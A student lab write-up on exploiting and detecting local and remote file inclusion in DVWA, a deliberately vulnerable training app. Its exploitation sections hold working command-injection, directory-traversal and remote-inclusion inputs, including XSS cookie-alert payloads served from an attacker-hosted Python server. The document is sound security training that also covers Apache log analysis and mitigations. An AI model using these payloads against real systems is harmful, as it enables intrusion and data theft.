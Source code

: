 # Assisted Lab: Performing and Detecting LFI/RFI

## Overview

In this lab, I performed and investigated **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** exploits against a vulnerable web application, DVWA (Damn Vulnerable Web Application). The objective was to gain hands-on experience in identifying and exploiting file inclusion vulnerabilities and then locating indicators of compromise (IoCs) in Apache logs.

---

## Objectives

This lab aligns with the following **CompTIA CySA+ objectives**:

- 1.1: System and network architecture in security operations
- 1.2: Analyze indicators of malicious activity
- 1.3: Use appropriate tools to determine malicious activity
- 1.4: Threat intelligence and threat hunting concepts
- 2.4: Recommend controls to mitigate software vulnerabilities
- 3.2: Perform incident response activities
- 3.5: Attack methodology frameworks

---

## Environment

- **Attacker VM:** Kali Linux (KALI)
- **Target VM:** Ubuntu Server with DVWA (LAMP)
- **Tools Used:** Firefox, wget, Apache logs, python web server, terminal

---

## Part 1: Local File Inclusion (LFI) Exploitation

### File Inclusion Behavior

- Explored page parameter:
  - ?page=file1.php
  - ?page=file2.php
  - ?page=file3.php
  - ?page=file4.php

![?page=file4.php](images/file4.jpg)
**URL bar showing ?page=file4.php** with page output confirming inclusion.

---

### Directory Traversal & Command Injection

- Used command injection:

```bash
| ls -l ../../
| ls -lR ../../hackable
```

- Found: `fi.php` under `hackable/flags/`

![hackable](images/hackable.jpg)
**Command injection output listing /hackable/flags contents**

---

### Accessing fi.php and Hidden Quotes

- Inclusion via LFI:

```bash
  ?page=../../hackable/flags/fi.php
```

- Retrieved contents using:

```bash
| cat ../../hackable/flags/fi.php
wget http://dvwa.structureality.com/hackable/flags/fi.php
```

![terminal_fi](images/terminal_fi.jpg)
**Terminal view of fi.php contents via wget and cat**

---

### Copying and Renaming Files for Safe Access

- Copied PHP file as `.txt` to prevent execution:

```bash
| cp ../../hackable/flags/fi.php ../../hackable/uploads/fi.txt
```

![fi_textFile](images/fi_txt.jpg)
![fi_textFile](images/terminal_fi_txt.jpg)
**File list of uploads directory showing fi.txt and fi.php**

---

### Accessing Sensitive System Files

- Attempted LFI of sensitive file:

```bash
?page=../../../../../../etc/passwd
```

![etc_passwd](images/etc_passwd.jpg)
**Visible contents of /etc/passwd displayed in browser**

---

## Part 2: Remote File Inclusion (RFI) Exploitation

### Hosting Malicious Payload

- Started Python HTTP server on attacker VM:

```bash

python -m http.server 9999
```

- Created payload files:

```bash
echo 'This is a test' > index.html
echo '<script>alert("You are hacked!")</script>' > index2.html
echo '<script>alert(document.cookie)</script>' > index3.html
```

### Triggering Remote Inclusion

- Edited URL to include remote file:

```bash
?page=http://10.1.16.66:9999/index2.html
?page=http://10.1.16.66:9999/index3.html
```

![alert_php](images/alert_php.jpg)
![alert_hacked](images/alert_hacked.jpg)
Browser pop-ups: “You are hacked!” and document.cookie alert

## Part 3: Investigating Apache Logs

### Access Apache Logs

- Switched to LAMP and used:

```bash
cd /var/log/apache2
less access.log
```

![access_log](images/access_log.jpg)

Terminal viewing access.log with highlighted suspicious GET requests

### Log Analysis Summary

- Found evidence of LFI via:

```bash
GET /vulnerabilities/fi/?page=file4.php
GET /vulnerabilities/fi/?page=../../hackable/flags/fi.php
GET /vulnerabilities/fi/?page=../../../../../../etc/passwd
```

- Found RFI evidence via:

```bash
GET /vulnerabilities/fi/?page=http://10.1.16.66:9999/index2.html
```

- Identified user-agent for wget file pull:

```bash
Wget/1.21.3
```

## Conclusion

This lab demonstrated:

- The risk of improper input sanitization.
- How LFI and RFI vulnerabilities can lead to code execution and data exposure.
- How attackers combine techniques like directory traversal and XSS with file inclusion.
- The value of log analysis for identifying IoCs.

## Suggested Improvements

- Enforce input validation and sanitization.
- Disable remote file inclusion in PHP (allow_url_include=Off).
- Log and monitor access to sensitive URLs.
- Implement WAF and alerting for abnormal parameter values.
